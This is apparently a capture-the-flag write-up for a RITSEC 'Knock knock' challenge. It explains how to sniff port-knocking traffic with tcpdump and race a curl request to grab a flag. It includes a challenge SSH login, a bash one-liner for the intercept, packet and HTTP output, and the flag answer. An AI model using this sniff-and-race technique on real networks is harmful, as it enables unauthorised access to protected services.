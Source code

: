 # Knock knock [498 pts]

## Category
>Web

## Description
>While performing a pentest, we managed to get limited access to a box on the network (listener@129.21.228.115) with password of password. There's probably some cool stuff you can find on the network if you go looking.

## Writeup
SSH into the server provided and notice that the only programs available are `nc`, `tcpdump`, `curl`, `ls` and a few more.

The `tcpdump` looks interesting!
By looking at the network traffic for a while we notice a suspicious local IP address, 192.168.0.14, that sometimes sends data back over https. Right before this data is sent, there is usually 3 connections to random ports every time.

It looks like there is some port knocking going on here! The challenge name is "Knock Knock" so we already have this hint.

The problem is that there are random ports that get knocked on every time, and the https-port is only open for one connection. Maby the information about which ports to knock on next time is included in the data sent over https? How can we hook into this sequence of requests and send an https-request before the client connects? We notice that there is a slight delay between the last portknock and the https request, so maby we can just wait for the third portknock and quickly use `curl` to get the data. Tcpdump can be stopped after "n" packets, so with the right filters we can make a bash oneliner:

**Bash oneliner to solve the challenge**
```bash
while true; do tcpdump tcp and dst 192.168.0.14 and not port 443 -c 3; curl -k -v --connect-timeout 10 https://192.168.0.14; done
```

We let this run, and hopefully, if there are no other people on the box breaking the sequence, we get the flag back!

```bash
19:36:15.210784 IP 192.168.0.33.43472 > 192.168.0.14.7553: Flags [S], seq 2806668997, win 1024, options [mss 1460], length 0
19:36:29.707206 IP 192.168.0.33.56707 > 192.168.0.14.2284: Flags [S], seq 1943103875, win 1024, options [mss 1460], length 0
19:36:44.203373 IP 192.168.0.33.46432 > 192.168.0.14.2438: Flags [S], seq 1000961227, win 1024, options [mss 1460], length 0
3 packets captured
4 packets received by filter
0 packets dropped by kernel
* Rebuilt URL to: https://192.168.0.14/
*   Trying 192.168.0.14...
* TCP_NODELAY set
* Connected to 192.168.0.14 (192.168.0.14) port 443 (#0)
* Server certificate:
*  subject: C=AU; ST=Some-State; O=Internet Widgits Pty Ltd; CN=192.168.0.14
*  start date: Nov 15 14:15:26 2019 GMT
*  expire date: Nov 14 14:15:26 2020 GMT
*  issuer: C=AU; ST=Some-State; O=Internet Widgits Pty Ltd; CN=192.168.0.14
*  SSL certificate verify result: self signed certificate (18), continuing anyway.
> GET / HTTP/1.1
> Host: 192.168.0.14
> User-Agent: curl/7.58.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sat, 16 Nov 2019 19:36:44 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Last-Modified: Fri, 15 Nov 2019 14:20:35 GMT
< ETag: "1c-597634d297ba1"
< Accept-Ranges: bytes
< Content-Length: 28
< Content-Type: text/html
< 
RITSEC{KN0CK_KN0CK_IM_H3R3}
```


Flag: `RITSEC{KN0CK_KN0CK_IM_H3R3}`
